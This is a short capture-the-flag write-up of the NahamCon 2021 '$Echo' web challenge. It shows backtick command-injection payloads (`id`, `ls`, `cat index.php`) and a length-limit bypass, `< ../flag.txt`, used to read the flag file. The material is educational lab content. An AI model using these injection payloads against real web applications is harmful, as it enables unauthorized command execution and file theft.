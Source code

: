 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | $Echo Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: $Echo
tags: "web, rce"
date: 2021-03-15T00:00:00+00:00
last_modified_at: 2021-03-15T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2021</h1>

## $Echo

It is simple command injection
in the input box we can use ` characters 

```
`id`
```

all commands have to be enclosed in `` chars

now if we list files using
```
`ls`
``` 
we can see `index.php` when we 
```
`cat index.php`
```
we can see the code!
certain characters are `blacklisted`  we can only enter command less that `15` chars
but there is no `flag.txt` here, if we simply execute 
```
`ls ../`
```
then we can see flag.txt
```
`cat ../flag.txt`
```
fails because length of payload exceeds 15

payload to get flag : 

**linux redirection character! `<` is NOT blacklisted!**
```
`< ../flag.txt`
```

